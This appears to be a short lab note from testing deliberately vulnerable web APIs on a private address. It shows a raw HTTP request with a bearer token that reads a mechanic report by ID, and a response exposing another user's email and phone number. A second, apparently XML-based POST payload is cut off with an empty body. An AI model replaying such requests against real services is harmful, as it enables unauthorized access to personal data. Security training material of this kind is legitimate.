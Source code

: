 ### details exploit like 
- input payload
```bash
GET http://192.168.0.105:8888/workshop/api/mechanic/mechanic_report?report_id=10 HTTP/1.1
Host: 192.168.0.105:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.0.105:8888/contact-mechanic?VIN=0TQQQ37LWFY702888
Content-Type: application/json
Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ4ZW5hZm8zOTIwQGphemlwby5jb20iLCJpYXQiOjE3NDY5NjAyMjcsImV4cCI6MTc0NzU2NTAyNywicm9sZSI6InVzZXIifQ.mayafIxvCuC3AQ2sYH56XUrKOi9Eduh2mVCwWMGbLVEA9jh405LbAEaJcdIqqCYTbWeIR70SPgw7VjR5fN9ydewyziNSUB4HmFbvy3URtsKlrOTw7MYRlwHNhuJyg-4ZhvGWlrDhAuFywmQcij8S6h_vMzaBEm1Av64lyjpb00fwBIY0e37AoEAoGqG1xCAPBTYrzs7otylLprYv2adspWnJ5xD5ANayWF-FYUBgZq-pT4Q84YjBecGvMg5CrerXe1Dx_wDMCs8A-scDEU2WkebumMnOXF3MxY1xfebqBhVbRLkelvGgFCmYH9FmLQg56l5-8ze2Eqg_j1qpWaVJVA
Content-Length: 0
Origin: http://192.168.0.105:8888
Connection: keep-alive
Priority: u=0

 
```
- output 
```bash
HTTP/1.1 200 OK
Server: openresty/1.25.3.1
Date: Sun, 11 May 2025 10:46:42 GMT
Content-Type: application/json
Connection: keep-alive
Allow: GET, HEAD, OPTIONS
Vary: origin, Cookie
access-control-allow-origin: *
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin
Content-Length: 295

{"id":10,"mechanic":{"id":2,"mechanic_code":"TRAC_JME","user":{"email":"james@example.com","number":""}},"vehicle":{"id":6,"vin":"0TQQQ37LWFY702888","owner":{"email":"xenafo3920@jazipo.com","number":"99912955096"}},"problem_details":"aa","status":"pending","created_on":"11 May, 2025, 10:45:34"} 
```
### file expolit
- input payload 

```bash
POST /dvwsuserservice HTTP/1.1
Host: 192.168.0.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Bearer null
X-Requested-With: XMLHttpRequest
Content-Type: application/json;charset=utf-8
Content-Length: 597
Origin: http://192.168.0.105
Connection: keep-alive
Referer: http://192.168.0.105/admin.html
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>

```